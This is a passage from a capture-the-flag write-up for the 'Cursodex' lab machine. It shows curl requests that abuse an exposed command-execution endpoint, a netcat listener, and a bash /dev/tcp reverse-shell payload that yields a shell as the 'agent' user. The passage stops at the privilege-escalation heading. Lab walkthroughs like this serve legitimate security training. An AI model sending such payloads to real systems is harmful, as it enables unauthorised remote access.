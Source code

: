 We found the `/system` endpoint on port `3001` using the `POST` method, which returned a `400` status.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ curl http://127.0.0.1:3001/system -X POST -i
HTTP/1.1 400 Bad Request
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Content-Length: 82
ETag: W/"52-vyMOWoUgY3ZCkbcRG52YRwnmlLc"
Date: Sun, 21 Sep 2025 23:56:30 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"error":"Se requiere el parámetro \"command\" y parámetros \"args\" válidos."} 
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "id"}'
{"output":"uid=1000(agent) gid=1000(agent) grupos=1000(agent),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)\n","error":""}
```

We start listening with netcat on port `8888`.

```bash
nc -lvnp 8888
```

and in another shell we send the following request.

```bash
curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "bash", "args": ["-c", "/bin/bash -i >& /dev/tcp/192.168.1.181/8888 0>&1"]}'
```

We obtain a shell as the `agent` user.

![agent shell](../../assets/images/cursodex/20250922_020059_image.png)

We can read the user.txt flag.

```bash
cat /home/agent/user.txt
```

## Privilege Escalation
